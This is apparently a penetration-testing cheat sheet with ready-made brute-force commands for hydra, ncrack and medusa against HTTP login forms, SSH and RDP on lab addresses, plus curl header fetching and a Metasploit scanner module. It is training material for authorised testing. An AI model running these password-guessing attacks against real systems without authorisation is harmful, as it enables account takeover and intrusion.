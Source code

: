 ### http-post-form
Ref
* <https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/>
* <https://www.youtube.com/watch?v=fFnEdoCyVhk&list=PLYmlEoSHldN7HJapyiQ8kFLUsk_a7EjCw&index=63>

syntax
```sh
hydra -L <USER> -P <Password> <IP Address> http-post-form "<Login Page>:<Request Body>:<Error Message>"
```
Example:
```sh
hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"
```
### ssh
```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.123 -t 4
```
## ncrack
Refs:

* <https://tools.kali.org/password-attacks/ncrack>

* <https://nmap.org/ncrack/man.html>

Use verbose mode (`-v`), read a list of IP addresses (`-iL` win.txt), and attempt to login with the username victim (`--user` victim) along with the passwords in a dictionary (`-P` passes.txt) using the RDP protocol (`-p` rdp) with a one connection at a time (`CL=1`):
```
root@kali:~# ncrack -v -iL win.txt --user victim -P passes.txt -p rdp CL=1
```
### ssh
```
ncrack -v  -U username -P passwords CL=1 10.10.10.109:22
OR
ncrack -v  -U username -P passwords CL=1 ssh://10.10.10.109
OR
ncrack -v  -U username -P passwords CL=1 -p ssh 10.10.10.109
```
## medusa
### ssh
Ref
* <https://www.youtube.com/watch?v=j0RjKrON8yI&list=PLPp1uf5KO-28BELlZoFyKNGDaMKZrriOr&index=74>
```
medusa -h 192.168.1.102 -u msfadmin -P customwordlist.txt -M ssh -n 22
```
`-h` : target hostname,
`-u` : username,
`-P` : a dictionary file,
`-M` : the module to execute like SSH, FTP etc,
`-n` : port number wrt to module
# Header Fuzzing and Manipulation
## Fetch Header
```sh
# curl -I to fetch headers and read the protection type from those headers
curl -I http://192.165.34.3/dir
# msfconsole
use auxiliary/scanner/http/http_header
```
